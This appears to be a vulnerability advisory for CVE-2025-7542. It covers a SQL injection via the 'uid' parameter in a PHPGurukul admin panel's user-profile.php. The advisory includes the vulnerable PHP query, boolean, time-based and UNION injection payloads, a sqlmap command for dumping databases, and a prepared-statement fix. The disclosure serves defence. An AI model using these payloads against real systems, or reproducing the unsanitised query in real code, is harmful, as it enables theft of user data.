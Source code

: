 ### 2. Multiple SQL Injection Vectors via `uid` GET Parameter in `user-profile.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3

---

## 👨‍💻 BUG Author:
**4m3rr0r**

**CVE-2025-7542**

---

## 📦 Product Information:

- **Vendor Homepage**: [https://phpgurukul.com](https://phpgurukul.com)
- **Software Link**: [User Registration & Login and User Management System With Admin Panel](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
- **Affected Version**: <= 3.3
- **Product Name**: User Registration & Login and User Management System With Admin Panel

---

## 🛠 Vulnerability Details

- **Vulnerability Type**: SQL Injection (CWE-89)
- **Affected File**: `loginsystem/admin/user-profile.php`
- **Vulnerable Parameter**: `uid` (GET)
- **Authentication Required**: ✅ Yes (Admin Session)
- **Impact**: Database Enumeration, Data Exfiltration, Possible Admin Account Hijack

---

## 🧬 Root Cause

User input from the `uid` GET parameter is directly embedded into an SQL query without validation or sanitization:

```php
$userid = $_GET['uid'];
$query = mysqli_query($con, "select * from users where id='$userid'");
```

---

## ⚠️ Impact

An authenticated attacker (admin) can exploit this vulnerability to:

- Read sensitive database information
- Dump user data including email, phone number, etc.
- Enumerate entire database structure
- Chain with other vulnerabilities for privilege escalation

---

## 📋 Description

The application fails to sanitize input in the `uid` parameter of `user-profile.php`, resulting in a classic **SQL Injection vulnerability**. Since this page is accessible after admin login, a malicious admin or attacker with admin session can exploit this flaw to gain full access to the application's database.

---

## 🔬 Proof of Concept

### 🔗 Vulnerable Endpoint

```http
GET /loginsystem/admin/user-profile.php?uid=1
```

### 💣 Example Payloads

#### Boolean-Based Injection
```
uid=1' AND 1=1-- -
```

#### Time-Based Blind
```
uid=1' AND SLEEP(5)-- -
```

#### UNION-Based
```
uid=1' UNION SELECT NULL, CONCAT(user(),0x3a,database()), NULL, NULL, NULL, NULL, NULL-- -
```

### ✅ sqlmap PoC

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" --risk=3 --level=5 --batch --dbs
```

![sqlmap](./Images/2025-07-11_00-20.png)

---

## 🛡 Suggested Remediation

Replace vulnerable query with **parameterized statements** (prepared statements):

```php
$userid = $_GET['uid'];
$stmt = $con->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $userid);
$stmt->execute();
$result = $stmt->get_result();
```

---

## 🔐 Security Recommendations

- Always use `prepared statements` for database queries
- Validate and sanitize all user input, especially GET/POST parameters
- Enable Web Application Firewall (WAF)
- Monitor admin activity logs for anomalies
- Apply least privilege to database user accounts

---

## 📚 References

- [https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
